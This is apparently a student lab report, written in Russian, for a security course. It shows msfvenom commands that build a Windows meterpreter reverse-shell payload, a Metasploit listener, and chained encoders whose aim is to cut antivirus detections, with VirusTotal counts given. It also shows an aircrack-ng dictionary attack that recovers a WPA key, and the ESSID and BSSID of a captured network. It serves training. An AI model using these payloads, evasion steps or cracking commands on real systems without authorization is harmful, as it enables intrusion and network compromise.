



# Отчет

## Задание:

1. Доделать задания с metasploit+encoders
2. Ознакомиться с утилитами работы wifi
3. Разобрать дамп wpa.full.cap, найти хэндшейки в дампе, и попробовать сбрутить(показывал на уроке)
4. Найти хендшейк в предложенных дампах. Назвать ESSID, BSSID и канал атакованной сети, имя файла с EAPOL-пакетами.

## Выполнение:

### 1. Доделать задания с metasploit+encoders.

#### 1.1 Создание полезной нагрузки:

##### Команды:

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.139 -f exe >reverse1.exe

##### Результат:

##### Скриншот консоли:

#### 1.2 Использование полезной нагрузки:

##### Команды:

    msfconsole

    use exploit/multi/handler
    set lhost 192.168.1.139
    set payload windows/x64/meterpreter/reverse_tcp
    exploit 

##### Результат:

#### 1.3 Использование encoders:

##### Команды:

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.139 -f exe -x /mnt/hgfs/vmware/reverse1.exe -e x86/alpha_upper -i 5 > /mnt/hgfs/vmware/reverse_encode1.exe
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.139 -f exe -x /mnt/hgfs/vmware/reverse_encode1.exe -e x86/jmp_call_additive -i 5 > /mnt/hgfs/vmware/reverse_encode2.exe 

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.139 -f exe -x /mnt/hgfs/vmware/reverse_encode2.exe -e x86/countdown -i 50 > /mnt/hgfs/vmware/reverse_encode3.exe
    
##### Результат:

**Количество срабатываний на virustotal.com:**

- reverse1.exe - 44
- reverse_encode1.exe - 41
- reverse_encode2.exe - 40
- reverse_encode3.exe - 40

### 2. Ознакомиться с утилитами работы wifi

**Выполнено**.

### 3. Разобрать дамп wpa.full.cap, найти хэндшейки в дампе, и попробовать сбрутить.

##### Команды:

    ircrack-ng /mnt/hgfs/vmware/wpa.full.cap -w rockyou.txtc

##### Результат:

                               Aircrack-ng 1.6 

      [00:00:12] 60393/14344392 keys tested (4900.61 k/s) 

      Time left: 48 minutes, 35 seconds                          0.42%

                           KEY FOUND! [ 44445555 ]

      Master Key     : 17 4F E9 A8 9F 52 85 FF 0B 7F A3 05 03 DB 38 93 
                       75 15 D2 0B CE 17 D8 E2 EE 36 90 F0 47 B4 C5 0E 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : AE 83 8A AD 75 5C 16 1D 08 87 CD 2C F3 8C AE 60 

### 4  Найти хендшейк в предложенных дампах. Назвать ESSID, BSSID и канал атакованной сети, имя файла с EAPOL-пакетами.

#### 4.1 Хендшей обнаружен в дампе dump-02.cap

#### 4.2 Назвать ESSID, BSSID и канал атакованной сети

- ESSID: MGTS_GPON_7881
- BSSID: D4:21:22:34:D7:B4
- Канал: 1
- FILE: dump-02.cap

